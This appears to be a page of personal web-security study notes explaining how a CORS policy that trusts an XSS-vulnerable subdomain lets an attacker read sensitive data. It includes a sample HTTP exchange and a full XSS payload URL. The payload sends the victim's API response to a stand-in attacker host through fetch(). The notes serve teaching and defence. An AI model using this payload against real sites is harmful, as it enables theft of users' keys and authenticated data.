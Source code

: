 Even if properly configured CORS established a trusted and secured connection between two origins, if one origin trusted another origin that is vulnerable to [Cross-Site Scripting](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FClient-side%20Vulnerabilities%2FCross-Site%20Scripting%2FIntroduction) (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the origin that trusts the vulnerable application.

Given the following request:
```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```
If the server responds with:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
Then the attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, for example, using a URL like:
```txt
https://subdomain.vulnerable-website.com/?xss=<script>var xhr = new XMLHttpRequest(); var url = "https://vulnerable-website.com";  xhr.onreadystatechange = function () {  if (xhr.readyState == XMLHttpRequest.DONE) {   fetch("https://attacker-owned-website.com/log?key=" + xhr.responseText);  }; }; xhr.open("GET", url + "/sensitiveData", true); xhr.withCredentials = true; xhr.send(null);</script>
```